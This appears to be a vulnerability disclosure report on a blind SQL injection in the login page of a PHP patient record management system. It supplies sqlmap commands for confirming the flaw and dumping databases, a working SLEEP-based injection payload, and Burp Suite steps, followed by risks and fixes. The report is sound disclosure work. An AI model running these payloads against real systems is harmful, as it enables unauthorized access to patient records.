 # 🧾 Vulnerability Report – SQL Injection in PRMS Login Portal

**Author:** Subhash Paudel  
**Date:** 29 June 2025  
**Source:** `https://codeastro.com/patient-record-management-system-in-php-mysql-with-source-code/`

**Target URL:** `http://localhost/PRMS-php/login.php`  
**Project Source:** CodeAstro  
**Version:** 1.0  
**Severity:** Critical  
**Technology Stack:** Apache 2.4.58, PHP 8.0.30, MariaDB (MySQL ≥ 5.0.12)

---

## 🧩 Summary

A **Time-Based Blind SQL Injection** vulnerability was discovered in the login portal of the Patient Record Management System (PRMS), developed by CodeAstro. The vulnerability allows unauthenticated attackers to inject arbitrary SQL commands, enabling unauthorized access, data extraction, and potentially full compromise of the database.

---

## 🔐 Authentication (For Testing)

- **Username:** `liam`  
- **Password:** `Password@123`  
- **Login Page:** [http://localhost/PRMS-php/](http://localhost/PRMS-php/)

![Login Page](https://github.com/user-attachments/assets/df0a6607-4320-411b-b80e-8864e66a7574)

---

## 🚨 Vulnerable Endpoint

| HTTP Method | Endpoint URL                          | Affected Parameter |
|-------------|----------------------------------------|--------------------|
| POST        | `http://localhost/PRMS-php/login.php` | `uname`            |

---

## ⚙️ Automated Exploitation (SQLMap)

```bash
sqlmap -u "http://localhost/PRMS-php/login.php?uname=test" \
--data="uname=test&psw=123" --batch --level=5 --risk=3
```
![image](https://github.com/user-attachments/assets/dacd08b7-c05e-49c7-979b-c9ef2c2386c6)

**SQLMap Result:**
- Injection Type: **Time-Based Blind**
- DBMS: **MySQL (MariaDB)**
- Injection Confirmed

**Payload Used:**
```sql
uname=admin41839116' AND (SELECT 8601 FROM (SELECT(SLEEP(5)))pSRM) AND 'eHel'='eHel&psw=Password@123
```

### 📂 Database Dump Example

To dump the databases:
```bash
sqlmap -u "http://localhost/PRMS-php/login.php" \
--data="uname=admin&psw=Password@123" \
--dbs --batch
```

![SQLMap Dump](https://github.com/user-attachments/assets/6d6e6756-e4ad-47eb-b887-a8daf0d43ab5)

---

## 🧪 Manual Exploitation (For Educational Purposes Only)

### 1. Intercept the Request
- Use Burp Suite to capture login request with dummy credentials:
```http
POST /PRMS-php/login.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded

uname=admin&psw=Password@123
```
![Burp Repeater Payload](https://github.com/user-attachments/assets/d1995966-8ffc-43f8-8f9c-96587855745b)


### 2. Modify the Payload in Burp Repeater
Change `uname` to:
```sql
admin41839116' AND (SELECT 8601 FROM (SELECT(SLEEP(5)))pSRM) AND 'eHel'='eHel
```

### 3. Send and Observe
Click **Send** in Repeater. A **5-second delay** confirms the injection point.

![Burp Delay Response](https://github.com/user-attachments/assets/00ff9b95-837b-4aae-a847-b16edde12bf0)

---

## ⚠️ Security Risks

| Risk                        | Description                                                                 |
|-----------------------------|-----------------------------------------------------------------------------|
| Unauthorized Access         | Bypass authentication and log in as any user including administrators.      |
| Data Breach                 | Dump sensitive user, patient, or medical records.                          |
| System Compromise           | Modify or delete records, inject malicious data, or gain RCE (indirectly). |
| Regulatory Non-compliance   | May violate HIPAA, GDPR, or other data protection laws.                    |

---

## 🛡️ Mitigation & Recommendations

| Type            | Recommendation                                                                 |
|-----------------|---------------------------------------------------------------------------------|
| Input Validation| Use parameterized queries / prepared statements in PHP (e.g., PDO or MySQLi).  |
| WAF             | Deploy a Web Application Firewall to block SQLi patterns.                      |
| Least Privilege | Restrict DB user permissions; avoid using root-level DB users for apps.        |
| Logging         | Log all failed login attempts and monitor for injection patterns.              |
| Secure Errors   | Disable verbose error messages that could help attackers.                      |
| Code Review     | Conduct manual code review and static analysis for user input handling.        |

---

## 🏁 Conclusion

This SQL injection flaw is highly exploitable and critically dangerous. It can result in full database compromise without authentication. Immediate remediation is strongly advised.

---

## 📚 References

- [OWASP SQL Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLMap Official Documentation](https://github.com/sqlmapproject/sqlmap/wiki)
- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)
